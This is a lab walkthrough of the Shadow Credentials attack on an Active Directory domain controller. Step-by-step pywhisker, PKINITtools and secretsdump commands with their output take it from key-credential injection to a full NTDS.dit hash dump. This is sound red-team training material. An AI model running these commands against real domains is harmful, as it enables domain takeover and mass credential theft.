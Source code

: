 # Shadow Credentials

## tips
1. use python3.8
2. use the `-dc-ip` flag to point to the domain controller

## Scenario
- domain: lab.local
- ADCS: present and required for PKINIT
- user: sysadmin
- group membership: key admins
- privilege: AddKeyCredentialLink over Domain Controller: DC$

## Step #1: List key credentials
listing the keys on the DC. the out gives an either/or answer so we should try going for it

### Command
```bash
python3.8 pywhisker.py -v --dc-ip dc -d lab.local -u sysadmin -p 'Abc123!!' --target 'dc$' --action list
```
### Output
```
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=LAB,DC=local
[*] Attribute msDS-KeyCredentialLink is either empty or user does not have read permissions on that attribute
```

## Action #2: Add key credentials

### Command
```bash
python3.8 pywhisker.py -v --dc-ip dc -d lab.local -u sysadmin -p 'Abc123!!' --target 'dc$' --action add
```
### Output
```
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=LAB,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: e3550b17-9746-d819-99eb-0d907c12922d
[*] Updating the msDS-KeyCredentialLink attribute of dc$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[VERBOSE] No filename was provided. The certificate(s) will be stored with the filename: dnUC8Y14
[VERBOSE] No pass was provided. The certificate will be stored with the password: cCw1PLYcsQsUJggLshDq
[+] Saved PFX (#PKCS12) certificate & key at path: dnUC8Y14.pfx
[*] Must be used with password: cCw1PLYcsQsUJggLshDq
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
[VERBOSE] Run the following command to obtain a TGT
[VERBOSE] python3 PKINITtools/gettgtpkinit.py -cert-pfx dnUC8Y14.pfx -pfx-pass cCw1PLYcsQsUJggLshDq lab.local/dc$ dnUC8Y14.ccache
```

## Step #3: Getting TGT
using PKINIT, we request a TGT

### Command
```bash
python3.8 /opt/PKINITtools/gettgtpkinit.py -v -dc-ip dc -cert-pfx dnUC8Y14.pfx -pfx-pass cCw1PLYcsQsUJggLshDq lab.local/dc$ dnUC8Y14.ccache
```

### Output
```
2022-07-05 05:58:06,827 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2022-07-05 05:58:06,841 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2022-07-05 05:58:18,909 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2022-07-05 05:58:18,909 minikerberos INFO     5f35c60f52a4aa68fedf4673b70b6b9f08ca8a494031fbb361b2302954c1969f
INFO:minikerberos:5f35c60f52a4aa68fedf4673b70b6b9f08ca8a494031fbb361b2302954c1969f
2022-07-05 05:58:18,912 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

## Step #4: Getting NTHASH
using the key generated in Step #3 and exporting the generated TGT into our kerberos cache, we're going to get the NTLM hash for the DC :D

### Command
```bash
export KRB5CCNAME=/opt/pywhisker/dnUC8Y14.ccache
python3.8 /opt/PKINITtools/getnthash.py -dc-ip dc lab.local/'DC$' -key 5f35c60f52a4aa68fedf4673b70b6b9f08ca8a494031fbb361b2302954c1969f
```

### Output
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
8028aac845cdc82881b55e1d0b1c88e5
```

## Step #5: Dumping NTDS.dit
hashes. hashes everwhere

### Command:
```bash
secretsdump.py -just-dc-ntlm -dc-ip dc lab.local/'DC$'@dc.lab.local -hashes :8028aac845cdc82881b55e1d0b1c88e5
```

### Output:
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:eff164ce8ed0ac98cb7520c4de7dfc0b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
LAB.local\FSAdmin:1104:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\Regular:1106:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\SysAdmin:1107:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\JohnSmith:1108:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\NewUser:1113:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
DcpnYhFXlO:1117:aad3b435b51404eeaad3b435b51404ee:565cae8a079a5078163bc7969d132b9b:::
PoCOUBzGGU:1118:aad3b435b51404eeaad3b435b51404ee:1713981fe06cd340348300f7500befcf:::
john:1123:aad3b435b51404eeaad3b435b51404ee:98da674948a73eb2cfa124e9aca27a03:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:8028aac845cdc82881b55e1d0b1c88e5:::
CLIENT1$:1105:aad3b435b51404eeaad3b435b51404ee:43ca831bd985a0e64297f7799b39660b:::
FS$:1115:aad3b435b51404eeaad3b435b51404ee:995c9d47bb2bf0ff113b525d38cae2e1:::
HZBDQHVP$:1116:aad3b435b51404eeaad3b435b51404ee:38ae9e7ea8d9ab0f07982baac9e11b48:::
SFDRQNQH$:1119:aad3b435b51404eeaad3b435b51404ee:094a2d83f66f017ccd989a024e7bceee:::
JWHMHWBU$:1120:aad3b435b51404eeaad3b435b51404ee:53fb78699467a971ee2a51109afcf7e2:::
gmsa1$:1122:aad3b435b51404eeaad3b435b51404ee:2be99b0ca6594829276aaf74358624b8:::
[*] Cleaning up... 
```

## (Optional) Step #6: Removing the msDS-KeyCredentialLink
you will need the device GUID for this step --> it's provided in the output of the command in step #1

### Command
```bash
python3.8 pywhisker.py --dc-ip dc -d 'lab.local' -u 'sysadmin' -p 'Abc123!!' --target 'DC$' --action remove --device-id 'e3550b17-9746-d819-99eb-0d907c12922d'
```

### Output
```
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=LAB,DC=local
[*] Found value to remove
[*] Updating the msDS-KeyCredentialLink attribute of DC$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
```
